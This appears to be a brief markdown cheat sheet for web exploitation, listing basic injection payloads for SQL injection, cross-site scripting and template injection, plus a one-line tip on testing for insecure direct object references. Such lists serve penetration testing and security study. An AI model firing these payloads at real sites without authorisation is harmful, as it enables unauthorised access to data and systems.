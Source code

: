 # Web Exploitation

## SQLi
Payloads:
- ' OR '1'='1
- ' UNION SELECT null, version()--

## XSS
Payloads:
- <script>alert(1)</script>
- < img src=x onerror=alert(1)>

## SSTI
Payloads:
- {{7*7}}
- ${7*7}

## IDOR
Change IDs in URLs, test unauthorized access.
